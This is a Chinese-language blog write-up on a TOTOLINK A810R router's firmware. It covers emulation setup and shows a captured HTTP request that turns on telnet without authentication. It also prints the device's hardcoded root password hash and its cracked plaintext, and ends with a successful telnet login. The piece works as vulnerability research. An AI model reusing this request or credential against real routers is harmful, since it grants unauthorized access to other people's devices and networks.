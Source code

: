 ```yaml
---
title: TOTOLINK-A810R分析
date: 2023-09-25 10:25:35
tags: 
categories: iot
---
```

# 前言
偶然间看到了一个cve  是totolink的其他型号 随后发现我手上的这个貌似也存在这个漏洞 于是记录一下自己发掘的过程
设备型号:TOTOLINK A810R
固件版本: V5.9c.4573_B20191019
下载地址: https://totolink.tw/support_view/A810R
# 环境搭建
binwalk提取出文件系统后 老规矩还是来看一下架构
![image.png](https://blog-1259781238.cos.ap-nanjing.myqcloud.com/202309251030725.png)
随后就是qemu系统模拟
```
#/bin/sh

sudo tunctl -t top0 -u root

sudo ifconfig top0 192.168.6.2

sudo qemu-system-mipsel -M malta -kernel ./mipsel_kernel/vmlinux-3.2.0-4-4kc-malta -hda ./mipsel_kernel/debian_squeeze_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap,ifname=top0 -nographic
```
然后上传文件系统 chroot以及启动服务
```
scp -oHostKeyAlgorithms=+ssh-dss 1.zip root@192.168.6.3:/
root/
chroot ./squashfs-root /bin/sh
./bin/lighttpd -f lighttp/lighttpd.conf  -m lighttp/lib/
```
但是由于totolink的管理界面 常规的浏览器是不支持的 需要ie浏览器
但是linux安装ie浏览器过于麻烦 所以我直接闲鱼花30买了个真机用来复现
# 分析
首先使用firmwalker来看一下文件系统中有什么可以利用的地方
```
./firmwalker.sh ../iot/_TOTOLINK_A810R_V5.9c.4573_B20191019.web.extracted/squashfs-root ./firmwalker.txt
```
![image.png](https://blog-1259781238.cos.ap-nanjing.myqcloud.com/202309251048845.png)
可以看到 存在着telnet服务 我们访问一下这个网页 看看有什么功能
访问后直接跳转到了登录界面
由于这里我们已经知道了用户密码 所以先登录进去
![image.png](https://blog-1259781238.cos.ap-nanjing.myqcloud.com/202309261328384.png)
可以看到就是一个功能简单的 设置是否开启telnet服务的页面
这里直接使用burp来看一下按下apply按钮后发送的包
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/telnet.asp?timestamp=1695703177052
Cookie: SESSION_ID=2:1571586185:2

{"telnet_enabled":"1",
"topicurl":"setting/setTelnetCfg"
}
```
向cstecgi.cgi进行了一个post请求
包含了一个json表单 一个有两个参数 telnet_enabled和topicurl
前者应该是用来控制是否开启telnet服务 而后者应该是用来决定处理方式
因为利用浏览器的开发者工具 可以捕捉到一个包的参数为 "topicurl":"setting/getTelnetCfg"
同时我们观察一下包的内容  可以发现其实对于是否登录并没有进行检测
我们凭借这个poc就可以做到越权开启telnet服务
扫描端口发现开在了23
![image.png](https://blog-1259781238.cos.ap-nanjing.myqcloud.com/202309262105067.png)
尝试nc连接发现需要账号密码
而我们最开始使用firmwalker是扫描到了密码的
![image.png](https://blog-1259781238.cos.ap-nanjing.myqcloud.com/202309262106815.png)
打开看看这三个文件 发现是空的 不过紧邻着etc/shadow的shadow.example存放着root用户的md5加密后的密码
```
root:$1$BJXeRIOB$w1dFteNXpGDcSSWBMGsl2/:16090:0:99999:7:::
nobody:*:0:0:99999:7:::
```
解密后发现是cs2012
随后成功连接上路由器
![image.png](https://blog-1259781238.cos.ap-nanjing.myqcloud.com/202309262121818.png)


